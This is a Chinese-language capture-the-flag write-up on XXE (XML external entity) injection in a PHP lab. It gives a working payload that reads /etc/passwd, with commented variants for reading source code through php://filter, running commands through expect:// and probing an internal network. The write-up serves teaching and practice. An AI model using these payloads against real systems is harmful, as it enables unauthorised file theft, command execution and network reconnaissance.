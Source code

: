 > 1. 要仔细观察题目和页面中给的提示
> 2. 如果用burpsuit直接搜索改包用的payload，的漏洞后门

# PHP的XXE

## 题目描述

XXE（XML External Entity）是一种针对XML解析器的攻击技术，也被称为XML外部实体注入攻击。当应用程序解析用户提供的XML输入时，如果没有正确地配置或过滤外部实体，攻击者可以利用这一漏洞执行恶意操作。

XML允许在文档中定义和使用外部实体，这些实体可以从外部资源（如文件、网络URL等）中获取数据。如果应用程序解析了包含恶意外部实体的XML输入，并且未对外部实体进行适当的处理或限制，攻击者可能会读取敏感文件、执行远程代码或进行其他恶意活动。

## 解答

1. 查看题目得知需要利用XXE，即XML外部实体注入攻击

2. 查看页面得知xml版本为2.8.0

3. 搜索该漏洞

4. 得到payload

   注意此处需要修改两处，才能得到flag

   1. 修改http后的代码，为漏洞点，触发bug
   2. 插入payload

   ![image-20240410175241667](https://img2023.cnblogs.com/blog/3406637/202404/3406637-20240410175239003-384154513.png)

5. 得到flag

## 补充知识

PHP环境 XML外部实体注入漏洞（XXE）

1. `dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

2. 使用漏洞点 /simplexml_load_string.php（实测用别的也行）

3. payload

   ```php
   <?xml version="1.0" encoding="utf-8"?> 
       <!DOCTYPE xxe [
       <!ELEMENT name ANY >
       <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
       <root>
       	<name>&xxe;</name>
       </root>
    
   /* 
   1.读取任意文件
   file 协议，file:///etc//passwd
   php 协议，php://filter/read=convert.base64-encode/resource=index.php
   2.执行系统命令
   PHP环境中PHP的expect模块被加载
   expect://ipconfig
   3.内网探测
   http：//192.168.0.128:80
   参见：https://xz.aliyun.com/t/3357#toc-11
   */
   ```
